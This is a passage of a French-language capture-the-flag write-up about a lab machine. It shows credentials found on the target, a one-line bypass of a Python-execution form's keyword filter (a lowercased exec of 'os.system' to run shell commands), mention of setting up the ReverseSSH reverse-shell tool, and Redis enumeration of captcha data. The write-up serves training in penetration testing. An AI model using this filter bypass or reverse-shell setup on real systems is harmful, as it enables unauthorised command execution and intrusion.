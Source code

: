Là on trouve les identifiants suivants :

```plain

Username: steve
Password: bvbkukHAeVxtjjVH

```

Ils sont valides pour la page de login et nous amènent sur un formulaire permettant d'exécuter du Python.  

Il y a deux champs de type textarea, un pour saisir le code, l'autre pour saisir l'input qui sera passé au programme.  

Bien sûr certains mots clés sont bloqués et on obtient par exemple un message si on tente d'importer un module quelconque.  

Si j'avais été plus attentif, j'aurais remarqué que le code chargé du filtrage était donné en lien mais je n'en ai pas eu besoin, le bypass étant trivial :

```python

exec("FROM OS IMPORT SYSTEM AS E".lower())
e("ls -al")

```

Confiture de cerise
-------------------

Une fois le [ReverseSSH](https://github.com/Fahrj/reverse-ssh "ReverseSSH") mis en place je peux fouiller ce qui se passe sur le système. Il y a par exemple un serveur Redis en place :

```plain
redis        188  0.3  0.9  58020  9616 ?        Ssl  20:46   0:04 /usr/bin/redis-server 127.0.0.1:6379
```

Mais il ne semble lié qu'aux captchas de la page de login :

```plain

$ redis-cli
127.0.0.1:6379> INFO keyspace
# Keyspace
db0:keys=1,expires=0,avg_ttl=0
127.0.0.1:6379> keys *
1) "captcha-table"
127.0.0.1:6379> type "captcha-table"
hash
127.0.0.1:6379> hgetall "captcha-table"
1) "36baf60cb7bdf33226062c90fb59e77445b6fb54310dd4fb366ba830e89366d1"
2) "-18"
3) "657f170ad84beffcfc63447eaefc9a6843b2c36fe4e1646e555fb6926f2da611"
4) "-96"
5) "1728f212b663b94df96288e1e43729a25ac9617a454172ca1aedc936ee44d4e2"
6) "71"
7) "0358124fb65d5709467ed31f4d5ef1b02eed454bb559f91cd8bba108dc96aba1"
8) "29"

```
